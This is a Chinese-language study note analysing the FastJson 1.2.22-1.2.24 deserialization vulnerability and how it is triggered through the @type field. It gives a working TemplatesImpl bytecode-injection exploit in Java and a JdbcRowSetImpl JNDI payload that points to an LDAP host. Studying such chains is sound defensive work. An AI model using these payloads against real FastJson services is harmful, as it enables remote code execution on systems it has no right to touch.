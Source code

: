 # 2.2FastJson1.2.22-1.2.24 反序列化分析

## 1.漏洞原理

FastJson 反序列化是因为未对`@type`字段进行有效的校验导致可以传入恶意的类且反序列化的时候会自动调用`setter`和无参构造器，在某些情况下会调用`getter`，当这些方法存在利用点的时候，我们通过传入可控利用点成员变量进行攻击利用。

Fastjson通过parse、parseObject处理以json结构传入的类的字符串形时，会默认调用该类的共有setter与构造函数，并在合适的触发条件下调用该类的getter方法。当传入的类中setter、getter方法中存在利用点时，攻击者就可以通过传入可控的类的成员变量进行攻击利用

## 2.利用分析

### 2.1 TemplateImpl

#### (1).利用链分析

在CC3中，有涉及到关于`TemplatesImpl`链的利用，其中涉及到3个变量为：`_name、_bytecodes、_tfactory`。在刚开始的漏洞原理中提到，fastjson在解析json字符串的时候，会去调用getter方法，

所以说，只解析的json字符串中存在`_outputProperties`的键值对，那么在解析的过程中会调用到`TemplatesImpl#getOutputProperties()`，代码如下：

<img src="./img/image-20240416150617547.png" alt="image-20240416150617547" style="zoom:89%;" />

然后再接着调用`newTransformer()`后就是字节码的加载，这部分内容可以参考CC3,了解这一点之后，可能会想立马构造exp，但是能成功吗？如果进行的构造如下：

```java
  byte[] bytes = Files.readAllBytes(Paths.get("Exp.class"));
  String text = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
          "\"_bytecodes\":"+ Arrays.toString(bytes) +"," +
          "'_name':'me7eorite'," +
          "'_tfactory':{ }," +
          "\"_outputProperties\":{ }" +
          "}";
  Object obj = JSON.parseObject(text,Feature.SupportNonPublicField);
```

编译器是会产生格式错误的报错，显然这种方式是不行的，fastjson应该有自己的处理逻辑，所以往下需要分析一下它的解析过程。



在FastJson解析过程中，关键代码位于`DefaultJSONParser#parseObject()`中，其中关键位置如下：

<img src="./img/image-20240416151603853.png" alt="image-20240416151603853" style="zoom:50%;" />

在该位置，通过传入的`@type`获取到需要转化的类，对于后续版本中，该类还会涉及到黑名单的绕过。

往下就涉及到field的处理，主要的处理方式是在于`ObjectArrayCodec#deserialze(...)`中

<img src="./img/image-20240416155420886.png" alt="image-20240416155420886" style="zoom:59%;" />

传入后会先判断token的类型，然后采取指定的操作方式，例如：传入的是`_bytecodes`后会进行base64解码：

<img src="./img/image-20240416155239841.png" alt="image-20240416155239841" style="zoom:87%;" />

根据以上的分析，这个构造方式就很清晰的：

1. 利用`TemplatesImpl`触发，需要`_name、_tfactory、_bytecodes`变量
2. 为了触发getter，需要定义`_outputProperties`
3. `_bytecodes`赋值的时候存在base64解码，需要编码。

修改以上的exp，增加一个base64编码即可：

```java
  byte[] bytes = Files.readAllBytes(Paths.get("/Users/me7eorite/Documents/GitHub/Learning-Demo/JavaStudy/target/classes/Exp.class"));
  String s = Base64.getEncoder().encodeToString(bytes);

  String text = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
          "\"_bytecodes\":[\""+s+"\"]," +
          "'_name':'me7eorite'," +
          "'_tfactory':{ }," +
          "\"_outputProperties\":{ }" +
          "}";
  Object obj = JSON.parseObject(text,Feature.SupportNonPublicField);
```

当构造上述exp的时，或许会产生疑问：构造fastjson反序列化自动调用setter？但是，类中并没有`SetName()`。为什么还能够正常赋值？

因为,增加配置`Feature.SupportNonPublicField`到私有属性会通过反射赋值，其代码位于`FieldDeserializer#setValue(...)`。部分代码如下：

![image-20240416220724322](./img/image-20240416220724322.png)

## 2.2 JdbcRowSetImpl

### (1).利用链分析

```java
String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://0.0.0.0:1389/owst18\",\"autoCommit\":true}";
JSONObject.parse(payload);
```

根据之前的分析，FastJson反序列化的时候会调用setter，在该exp中，通过`setAutoCommit(...)`调用到`this.connect()`

![image-20240416231849467](./img/image-20240416231849467.png)

在`this.connect()`中，存在var1.lookup(...)，判断如果参数可控，这个位置是可以触发JNDI注入的。

![image-20240416231932496](./img/image-20240416231932496.png)

配置一个dataSourceName，需要注意的是在exp中这键值对的顺序是不能够随意变化的，FastJson反序列化的时候会按照顺序调用setter。

